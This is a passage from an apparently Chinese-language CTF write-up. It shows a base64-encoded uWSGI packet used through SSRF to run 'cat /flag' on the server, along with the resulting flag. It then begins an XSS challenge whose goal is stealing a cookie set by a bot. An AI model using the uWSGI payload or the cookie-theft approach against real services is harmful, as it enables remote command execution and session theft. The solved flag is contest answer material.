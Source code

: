 执行`cat /flag > /tmp/flag`.

```
ANIAAA8AU0VSVkVSX1BST1RPQ09MCABIVFRQLzEuMQ4AUkVRVUVTVF9NRVRIT0QDAEdFVAkAUEFUSF9JTkZPBQAvZnVjawsAUkVRVUVTVF9VUkkFAC9mdWNrDABRVUVSWV9TVFJJTkcAAAsAU0VSVkVSX05BTUUJADEyNy4wLjAuMQkASFRUUF9IT1NUCQAxMjcuMC4wLjEKAFVXU0dJX0ZJTEUcAGV4ZWM6Ly9jYXQgL2ZsYWcgPiAvdG1wL2ZsYWcLAFNDUklQVF9OQU1FBQAvZnVjaw==
```

得到 flag：`flag{UwSg1_iS_n0t_SafE_whEN_SSrf}`.

## Q 小树洞的一大步

> 为了模拟比赛第一阶段的情况，我关闭了 Chrome Devtools 里的 JavaScript sourcemap 功能.

先分析 XSSBot：

```python
driver.execute_script(f'document.cookie="flag={FLAG}"')
```

可知，flag 在用户浏览器的 cookie 里. 接下来考虑如何获取这个 cookie.

首先，我们肯定需要从 URL 注入某些东西. 在 Chrome Devtools 的 Source 中搜索`location`.

<img alt="Untitled" src="./assets/Untitled%2017.png" width="512">

发现该 Web App 会把满足条件的 URL Hash 存入状态中的`search_text`. 继续追踪`search_text`：

<img alt="Untitled" src="./assets/Untitled%2018.png" width="512">
